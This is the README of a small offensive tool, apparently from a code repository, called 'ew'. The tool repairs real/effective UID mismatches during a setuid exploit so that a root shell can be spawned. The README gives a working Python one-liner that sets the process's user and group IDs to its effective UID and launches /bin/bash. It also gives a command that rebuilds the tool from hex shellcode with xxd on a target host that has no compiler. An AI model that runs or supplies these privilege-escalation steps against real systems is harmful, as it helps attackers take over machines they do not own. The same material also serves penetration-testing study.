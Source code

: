 # ew #

_ew_ is a simple wrapper program for circumventing ruid / euid mistmatches during a suid exploit. It's so simple, the code is really self documenting. 

	geteuid();
	setreuid();
	setregid();
	execve();

Another quick method if python is available would be:
	/usr/bin/python -c 'import os; os.setuid(os.geteuid()); os.setgid(os.geteuid()); os.system("/bin/bash")'

Enjoy!

## ew shellcode ##

The files with shellcode are the same ew, but were built with '-Os' and then stripped, before being run through xxd -p. This is useful when the target host has xxd but no compiler.

	cat ew-x64-shellcode.hex | xxd -p -r > ew
